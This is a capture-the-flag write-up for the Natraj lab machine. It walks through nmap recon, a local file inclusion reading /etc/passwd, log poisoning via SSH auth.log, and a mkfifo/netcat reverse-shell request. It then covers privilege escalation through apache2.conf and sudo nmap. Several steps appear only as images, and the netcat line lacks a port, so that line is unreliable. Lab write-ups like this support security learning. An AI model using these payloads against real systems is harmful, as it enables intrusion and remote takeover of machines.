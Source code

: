 # Natraj
## Recon
1. Scanning

`nmap -sn -oA host_disc ‘192.168.10.*’`
![](1.png)

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA  scan1 192.168.10.54`

![](2.png)

2. Enumeration

    We started by visiting the web service (port 80), where we have found several pictures and information about the Natraj, we will check the source code and robots.txt, it seems that there is nothing useful. (or at least, for the moment). So let’s proceed further.

    With the help of Dirb and it’s default dictionary, we have found a directory called “console“.

    We go in and list a file called “file.php“

    Now I decided to use the same file name as the “GET” variable and try to do a proof of concept (POC) to check if the site was vulnerable to Local File Inclusion (LFI).   
`http://192.168.10.54/console/file.php?file=../../../../../../../../../../etc/passwd`

![](3.png)

![](4.png)

After this, we can try writing PHP code inside the SSH command for the connection:

![](5.png)

![](6.png)

Great! now, we’ll put a listening netcat on port 1234 and run the command to get the reverse Shell.

`GET /console/file.php?file=/var/log/auth.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f| /bin/sh -i 2>&1 | nc 192.168.10.54 > /tmp/f| HTTP/1.1` 
We will pass this line to URL-Encode

And we will send the request as shows in image below:

![](7.png)

![](8.png)


3. Gaining Access

![](9.png)

run the "linpeas" tool and see that we have to write permissions in the file `“/etc/apache2/apache2.conf”`.

![](10.png)

I downloaded the file in my machine and edited these lines, specifying the username “mahakal”.

after editing apache2 file restart vuln machine

![](11.png)

Now, we’ll have to create a reverse Shell in PHP so that when we will run it, we take control of it as the user “mahakal”.

![](12.png)

![](13.png)

`sudo -l` shows that we have the permission to run nmap binary as root and without password.

![](14.png)

![](15.png)

flag is here!

![](16.png)